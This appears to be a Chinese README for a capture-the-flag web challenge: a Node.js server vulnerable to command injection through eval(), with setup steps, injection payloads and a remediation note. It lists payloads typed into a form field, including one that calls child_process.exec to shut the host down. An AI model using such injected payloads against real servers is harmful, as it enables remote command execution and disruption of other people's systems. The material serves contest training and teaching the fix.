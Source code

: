 # ISC_Cmd_Injecrion_Web

## 111國軍盃網路攻防題目
> 環境windows7

## 創建方式

> 利用nodejs啟動

```
node server.js
```

## 攻擊方式
> 在輸入使用者表格注入
```
require("child_process").exec("windows 指令")
require("child_process").exec("shutdown -s -t 10")
```

## 修補方式

不要使用eval()函數
